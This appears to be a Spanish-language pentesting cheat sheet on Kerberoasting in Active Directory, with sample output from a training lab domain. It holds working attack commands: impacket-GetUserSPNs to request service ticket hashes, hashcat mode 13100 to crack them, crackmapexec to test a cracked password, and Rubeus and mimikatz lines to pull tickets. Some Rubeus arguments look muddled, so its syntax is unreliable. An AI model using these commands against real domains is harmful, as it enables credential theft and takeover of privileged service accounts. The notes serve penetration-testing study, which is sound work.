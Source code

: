 # Kerberoasting

- Este ataque sirve para obtener credenciales de cuentas de servicios que están configurados con la autenticación Kerberos.
- En AD comunmente las cuentas de servicios tienen privilegios muy elevados.
- [Más info](https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/kerberoast)
## Como funciona

1. Solicitud TGS
2. Obtener Ticket.
3. Extraerlo con mimikatz o rubeus
4. Fuerza bruta o pass the ticket

- `sudo impacket-GetUserSPNs DOMAIN.LOCAL/USER:password -dc-ip IP -request`
- Guardar hash
- `hashcat -m 13100 hash.txt wordlist.txt`

## Listar cuentas
- `impacket-GetUserSPNs -dc-ip IP DOMAIN.LOCAL/USER`
- Ejemplo:
```powershell
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

#### Chequear cuenta post crackeo
- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!`


## Extraer tickets desde Windows
- `Rubeus.exe asktgt /user:<usuario> /rc4:<contraseña>`
- `Rubeus.exe tgtreq /user:<usuario> /rc4:<spn>`
- `Rubeus tgtdeleg /ticket:<ticket_file>`
    - mimikatz: `mimikatz.exe "kerberos::list" "exit"`
